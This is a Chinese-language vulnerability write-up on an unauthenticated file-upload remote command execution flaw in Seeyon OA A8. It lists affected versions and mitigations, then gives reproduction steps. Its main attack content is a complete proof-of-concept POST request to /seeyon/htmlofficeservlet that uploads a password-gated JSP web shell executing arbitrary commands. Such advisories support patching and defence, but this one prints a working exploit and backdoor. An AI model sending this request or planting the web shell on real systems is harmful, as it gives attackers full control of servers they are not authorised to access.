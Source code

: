 致远OA A8 系统远程命令执行漏洞
==============================

一、漏洞简介
------------

该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

二、漏洞影响
------------

漏洞影响的产品版本包括：

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件V7.1

漏洞处置建议

临时修补方案如下：

1、 配置URL访问控制策略；

2、
在公网部署的致远A8+服务器，通过ACL禁止外网对"/seeyon/htmlofficeservlet"路径的访问；

3、 对OA服务器上的网站后门文件进行及时查杀。

建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。
详情请移步CNVD官网查看<https://www.cnvd.org.cn/webinfo/show/5095>

三、复现过程
------------

先访问/seeyon/htmlofficeservlet
![](./resource/致远OAA8系统远程命令执行漏洞/media/rId25.png) 出现DBSTEP V3.0 0 21 0 htmoffice operate
err
![](./resource/致远OAA8系统远程命令执行漏洞/media/rId26.png) 掏出burp进行抓包替换成poc如下
![](./resource/致远OAA8系统远程命令执行漏洞/media/rId27.png) 提交POST请求包，查看回显如下
![](./resource/致远OAA8系统远程命令执行漏洞/media/rId28.png)

### 小结

POC：(POST包)

    POST /seeyon/htmlofficeservlet HTTP/1.1
    Content-Length: 1121
    User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
    Host: xxxxxxxxx
    Pragma: no-cache

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd3344".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7c
